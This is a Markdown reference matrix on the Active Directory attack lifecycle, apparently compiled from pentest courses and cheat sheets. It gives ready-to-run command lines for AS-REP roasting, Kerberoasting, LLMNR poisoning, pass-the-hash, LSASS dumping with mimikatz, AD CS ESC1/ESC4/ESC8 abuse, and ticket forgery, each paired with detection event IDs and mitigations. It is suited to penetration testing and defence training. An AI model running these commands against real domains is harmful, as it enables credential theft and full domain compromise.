


# Active Directory Attack Lifecycle & Reference Matrix

> Synthesized from the complete Active Directory collection in the PDF Data Knowledge Base, including *Game of Active Directory (GOAD)*, *Attacking Active Directory with Linux*, *Active Directory Pentest Course*, *AD Attacks Cheat Sheet*, and *10 Ways to Improve AD Security*.

---

## 🧭 Complete End-to-End Attack Lifecycle

---

## 🛠️ Comprehensive Technique & Tool Reference

### Phase 1: Reconnaissance & Enumeration
| Technique | Objective | Linux Tool / Syntax | Windows Tool / Syntax | Defense / Detection |
| :--- | :--- | :--- | :--- | :--- |
| **LDAP Querying** | Map users, groups, computers, OUs | `ldapsearch -x -H ldap://<DC_IP> -b "DC=corp,DC=local"` | `Get-ADUser -Filter *` `Get-DomainUser` (PowerView) | Restrict anonymous LDAP; monitor Event ID 4662 |
| **BloodHound Graph Ingestion** | Map shortest attack paths to Domain Admin | `bloodhound-python -d corp.local -u user -p pass -c All -dc dc.corp.local` | `SharpHound.exe -c All --zipfilename ad_audit.zip` | Monitor mass LDAP queries & MSRPC SAMR queries |
| **SMB & Share Enumeration** | Locate SYSVOL, NETLOGON, GPP passwords | `smbclient -L //<DC_IP> -U user%pass` `crackmapexec smb <CIDR> -u user -p pass --shares` | `Find-DomainShare -CheckShareAccess` | Audit share permissions; disable SMBv1 |

---

### Phase 2: Credential Harvesting & Protocol Abuse
| Technique | Protocol Mechanism | Tool Execution | Cracking Mode (Hashcat) | Primary Mitigation |
| :--- | :--- | :--- | :--- | :--- |
| **AS-REP Roasting** | Queries accounts with `DONT_REQ_PREAUTH` enabled | `impacket-GetNPUsers corp.local/ -usersfile users.txt -no-pass -dc-ip <DC_IP>` | Hashcat mode `18200` | Enforce Kerberos pre-authentication on all accounts |
| **Kerberoasting** | Requests TGS tickets for Service Principal Names (SPNs) | `impacket-GetUserSPNs corp.local/user:pass -request -dc-ip <DC_IP>` `Rubeus.exe kerberoast` | Hashcat mode `13100` | Deploy Group Managed Service Accounts (gMSAs) with 120-char passwords; enforce AES-256 |
| **LLMNR / NBT-NS Poisoning** | Spoofs name resolution broadcast responses | `responder -I eth0 -dwv` | Hashcat mode `5600` (NetNTLMv2) | Disable LLMNR and NBT-NS via Group Policy |

---

### Phase 3: Lateral Movement & Credential Dumping
| Vector | Mechanics | Tool Syntax | Detection Indicator |
| :--- | :--- | :--- | :--- |
| **Pass-the-Hash (PtH)** | Authenticates using NTLM hash without knowing plaintext password | `impacket-wmiexec -hashes :<NTLM_HASH> Administrator@<TARGET_IP>` | Event ID 4624 (Logon Type 3 with NTLM authentication package) |
| **Overpass-the-Hash** | Converts NTLM hash into Kerberos TGT | `Rubeus.exe asktgt /user:Admin /rc4:<NTLM_HASH> /ptt` | Event ID 4768 (Encryption type 0x17 / RC4 request) |
| **LSASS Memory Dumping** | Extracts plaintext/hashes from Local Security Authority Subsystem Service | `procdump.exe -ma lsass.exe lsass.dmp` `mimikatz # sekurlsa::logonpasswords` | Sysmon Event ID 10 (ProcessAccess to `lsass.exe`); enable LSA Protection (`RunAsPPL`) |

---

### Phase 4: Active Directory Certificate Services (AD CS Abuse)
| Misconfiguration | Vulnerability Description | Exploit Concept | Tooling |
| :--- | :--- | :--- | :--- |
| **ESC1** | Certificate template permits client authentication, `ENROLLEE_SUPPLIES_SUBJECT`, and low-privilege enrollment | Request certificate specifying Domain Admin in Subject Alternative Name (SAN) | `certipy req -u user@corp.local -p pass -ca <CA_NAME> -template ESC1_Template -upn administrator@corp.local` |
| **ESC4** | Vulnerable Access Control List (ACL) over certificate template | Low-privilege user has `WriteDacl` or `GenericAll` over template; modifies template to enable ESC1 | `certipy template -u user@corp.local -p pass -template TargetTemplate -save-old` |
| **ESC8** | Web Enrollment endpoints (`/certsrv`) active without Extended Protection for Authentication (EPA) | Relay NTLM authentication to AD CS HTTP endpoint to obtain computer certificate | `impacket-ntlmrelayx -t http://<CA_IP>/certsrv/certfnsh.asp --adcs --template Machine` |

---

### Phase 5: Privilege Escalation & Domain Dominance
| Attack Vector | Mechanics | Prerequisites | Dominance Impact |
| :--- | :--- | :--- | :--- |
| **ACL Abuse (WriteDacl / GenericAll)** | Grants full control or modifies group membership | Object permissions over target group/user | Elevate user to Domain Admins or reset administrative passwords |
| **DCSync (MS-DRSR Replication)** | Simulates a Domain Controller to pull password hashes | `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` rights | Dumps `ntds.dit` hashes including `krbtgt` without touching the DC filesystem |
| **Golden Ticket** | Forges Kerberos TGT using master `krbtgt` hash | Compromised `krbtgt` NTLM hash or AES-256 key | Persistent forest-wide administrative access valid for up to 10 years |
| **Silver Ticket** | Forges Kerberos TGS using machine account hash | Compromised server machine account secret | Direct access to services (CIFS, MSSQL, HTTP) without generating traffic on the DC |

---

## 🛡️ Enterprise Defense & Tiering Architecture

### Detection Engineering Matrix (Critical Event IDs)
* **Event ID 4624**: Successful Logon (Look for Type 3 network logons using NTLM instead of Kerberos).
* **Event ID 4625**: Failed Logon (Spike across multiple accounts indicates password spraying).
* **Event ID 4662**: Directory Service Object Access (Operation `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` indicates DCSync).
* **Event ID 4768**: Kerberos TGT Request (Anomalous requests or pre-auth failures).
* **Event ID 4769**: Kerberos Service Ticket Request (Ticket encryption type `0x17` indicates RC4 downgrade / Kerberoasting).
* **Event ID 4728 / 4738**: Member added to security group / User account modified.
